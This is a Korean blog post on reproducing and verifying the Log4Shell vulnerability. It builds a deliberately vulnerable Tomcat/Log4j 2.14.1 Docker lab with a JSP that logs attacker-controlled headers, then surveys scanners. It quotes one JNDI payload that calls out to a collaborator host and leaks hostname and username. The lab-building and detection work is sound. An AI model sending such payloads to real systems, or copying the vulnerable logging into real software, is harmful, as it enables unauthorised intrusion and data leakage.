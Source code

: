 ```yaml
---
layout: post
title: "Log4shell 검증"
categories: [취약점, Log4shell]
tags: [취약점, Log4shell]
toc: true
---
```


# 개요
- 2022년 1월 화제가 되었던 Log4shell 취약점을 다시 한번 정리해둔다. 
- 취약한 환경을 만들고 테스트하는 부분까지 진행한다. 
- 취약한 환경은 재사용을 쉽게하기 위해 도커 이미지로 만들어 둔다. 

# 취약한 환경
## 개요
- 톰캣 + JSP 환경에서 테스트한다. 톰캣은 8.5.42버전을 사용했다. 
- log4j는 2.14.1 버전을 사용했다. 

## 구축 순서
취약한 라이브러리와 설정파일, 취약한 라이브러리를 사용하는 어플리케이션 코드가 필요하다. 

### 취약한 log4j 라이브러리 설치 
- `log4j-core-2.14.1.jar`, `log4j-api-2.14.1.jar`를 다운로드 한다. 
- `/root/apache-tomcat-8.5.42/webapps/ROOT/WEB-INF/lib` 밑에 복사한다. 


### log4j 라이브러리 설정파일(log4j2.properties) 만들기 
다음 경로에 `log4j2.properties`파일을 생성한다. 

```
/root/apache-tomcat-8.5.42/webapps/ROOT/WEB-INF/classes/
```

`log4j2.properties`의 내용은 다음과 같다.  

```
status = warn
 
appender.console.type = Console
appender.console.name = LogToConsole
appender.console.layout.type = PatternLayout
appender.console.layout.pattern = [%-5level] %d{yyyy-MM-dd HH:mm:ss.SSS} [%t] %c{1} - %msg%n
 
#appender.file.type = File
#appender.file.name = LogToFile
#appender.file.fileName=logs/app.log
#appender.file.layout.type=PatternLayout
#appender.file.layout.pattern=[%-5level] %d{yyyy-MM-dd HH:mm:ss.SSS} [%t] %c{1} - %msg%n
 
# Rotate log file
appender.rolling.type = RollingFile
appender.rolling.name = LogToRollingFile
appender.rolling.fileName = logs/app.log
appender.rolling.filePattern = logs/$${date:yyyy-MM}/app-%d{MM-dd-yyyy}-%i.log.gz
appender.rolling.layout.type = PatternLayout
appender.rolling.layout.pattern = %d %p %C{1.} [%t] %m%n
appender.rolling.policies.type = Policies
appender.rolling.policies.time.type = TimeBasedTriggeringPolicy
appender.rolling.policies.size.type = SizeBasedTriggeringPolicy
appender.rolling.policies.size.size=10MB
appender.rolling.strategy.type = DefaultRolloverStrategy
appender.rolling.strategy.max = 10
 
# Log to console and rolling file
logger.app.name = com.jwmoon
logger.app.level = debug
logger.app.additivity = false
logger.app.appenderRef.rolling.ref = LogToRollingFile
logger.app.appenderRef.console.ref = LogToConsole
 
rootLogger.level = info
rootLogger.appenderRef.stdout.ref = LogToConsole
```

### Log4j2를 사용하는 어플리케이션 코드 (index.jsp)
- index.jsp 를 다음 내용으로 생성한다. 
- log4j2 라이브러리 기능을 이용해 `user-agent`나 `referer`헤더를 출력하고 있다. 
- 만약 이 헤더에 Log4shell 페이로드가 보내지면 서버는 페이로드에 포함된 커맨드를 실행할 것이다. 
- index.jsp를 톰캣의 웹 루트 경로 `/root/apache-tomcat-8.5.42/webapps/ROOT/`에 복사한다. 

```jsp
<%@ page import="org.apache.logging.log4j.LogManager" %>
<%@ page import="org.apache.logging.log4j.Logger" %>
<%
Logger log = LogManager.getLogger("[Index Logger]");
log.info("========== [Index Logger]====================");
log.info("UserAgent: " + request.getHeader("user-agent"));
log.info("Referer: " + request.getHeader("referer"));
log.info("Remote IP: " + request.getRemoteAddr());
%>
<html>
    <body>
    Log4sell Index Page. 
    </body>
</html>

```


## 도커이미지 작성
###  Dockerfile

```
# FROM tomcat:8.5.42-jdk8-openjdk  # 이 버전은 log4shell hofix가 들어가 있어서 검출이 안된다. (https://github.com/corretto/hotpatch-for-apache-log4j2/blob/main/README.md)
FROM tomcat:7.0.57-jre8
RUN mkdir webapps/ROOT/WEB-INF/lib
RUN mkdir webapps/ROOT/WEB-INF/classes
COPY ./index.jsp webapps/ROOT/index.jsp
COPY ./log4j2.properties webapps/ROOT/WEB-INF/classes/log4j2.properties
COPY ./log4j-api-2.14.1.jar webapps/ROOT/WEB-INF/lib/log4j-api-2.14.1.jar
COPY ./log4j-core-2.14.1.jar webapps/ROOT/WEB-INF/lib/log4j-core-2.14.1.jar
```

### 이미지 빌드
```sh
docker build -t log4shell .
```

### (옵션)이미지 태깅 및 Dockerhub 푸시 

```sh
docker login
docker tag log4shell jwmoon/log4shell:latest
docker push jwmoon/log4shell:latest
```

### 컨테이너 구동
- 호스트 포트번호는 적절히 바꾼다. 

```sh
docker run -d --rm -p 8080:8080 jwmoon/log4shell
```

- 구동후에 웹 브라우저등으로 접속해 본다. 
- 웹 브라우저 접속후에 다음 명령어로 로그가 잘 출력되는지 확인해본다. 

```
docker logs {컨테이너ID}
```


# 취약점 검증
다양한 스캐너가 있다. Burp Suite 의 확장 프로그램으로 설치하는 버전도 있고 파이썬 스크립트도 있다. 여기에서는 파이썬 스크립트로 시도해보겠다.

## 파이썬 스크립트 스캐너
- https://github.com/fullhunt/log4j-scan 에서 구한다. 
- 파이썬 스크립트이므로 간단하게 스캔 돌리기에 좋다. 
- 실행에는 python3이 필요하다.  
- 검출에 DNS callback을 사용한다. 

설치 & 사용법 

```sh
pip install -r requirements.txt
python log4j-scan.py -h
```

## Burp 스캐너1 (log4shell-scanner)
- Burp Suite Professional에서 사용가능하다. Log4shell 전용 액티브 스캔을 할 수 있다. 
- 작년(2022년)까지는 BAppStore에 있었던 것 같은데 지금은 사라졌다. 아래 링크에서 구할 수 있다. 
- https://github.com/PortSwigger/log4shell-scanner
- https://github.com/silentsignal/burp-log4shell/releases 에서 빌드된 버전을 다운로드 받을 수 있다. 
- 취약점 검출을 위해 DNS callback(Burp Collaborator 서버)을 사용한다. 
- `${jndi:ldap://u${hostName}-s2u-${env:USERNAME:-${env:USER}}.t5z5a6ccun4tcye4hrl0w0v1csijm7b.oastify.com/s2test}`와 같은 페이로드가 보내진다. 


## Burp 스캐너2 (log4shell-everywhere)
- Burp Suite Professional에서 사용가능하다. 
- 현재 BAppStore에서 log4shell을 검색하면 나오는 스캐너이다.  
- 취약점 검출을 위해 DNS callback(Burp Collaborator 서버)을 사용한다. 
- https://github.com/PortSwigger/log4shell-everywhere
